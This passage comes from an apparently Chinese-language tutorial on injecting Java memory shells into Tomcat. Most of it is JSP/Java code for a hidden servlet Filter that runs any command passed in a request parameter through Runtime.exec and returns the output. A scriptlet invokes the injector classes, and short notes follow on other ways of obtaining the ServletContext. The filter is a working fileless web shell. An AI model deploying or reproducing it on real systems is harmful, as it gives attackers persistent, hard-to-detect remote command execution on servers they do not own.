                Method m = c.getMethod("getCurrentWebApplicationContext");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.WebApplicationContext");
                m = c.getMethod("getServletContext");
                ServletContext servletContext = (ServletContext) m.invoke(o);
                return servletContext;
            } catch (Throwable t) {}
            return null;
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
                throws TransletException {

        }

        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
                             FilterChain filterChain) throws IOException, ServletException {
            String cmd;
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }


%>

<%
    TomcatEchoInject te = new TomcatEchoInject();
    te.init();
    TomcatShellInject ts = new TomcatShellInject();

    if(ts.init2(request.getServletPath(), request)){
        out.println("success");
    }
    else{
        out.println("again");
    }

%>
```

## 方法二:通过 Thread.currentThread().getContextClassLoader() 

相关文章:

https://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652474966&idx=1&sn=1c75686865f7348a6b528b42789aeec8&scene=21#wechat_redirect

https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3

## 方法三：在 spring 项目中通过 spring 容器来获取 servletContext 对象

ServletContext servletContext = ContextLoader.getCurrentWebApplicationContext().getServletContext();
